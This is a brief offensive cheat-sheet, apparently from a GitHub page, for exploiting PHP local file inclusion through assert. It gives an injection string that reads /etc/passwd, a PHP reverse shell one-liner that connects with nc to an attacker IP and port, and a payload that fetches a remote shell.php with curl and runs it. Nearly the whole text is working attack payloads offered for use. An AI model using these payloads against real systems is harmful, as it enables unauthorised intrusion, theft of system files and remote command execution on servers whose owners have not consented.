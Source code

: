 #### PHP LFI with assert
```
' and die(show_source('/etc/passwd')) or '

TO GET A REVERSE SHELL:

#Create a php reverse shell (shell.php)
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.142 9001 >/tmp/f');
?>#Curl and listen (Url Encoded)
' and die(system("curl http://<ip>/shell.php|php")) or '

I USED THE PENTEST MONKEY PHP ONE AND THAT WORKS FINE
```

https://github.com/Poellie01/LFIBuster
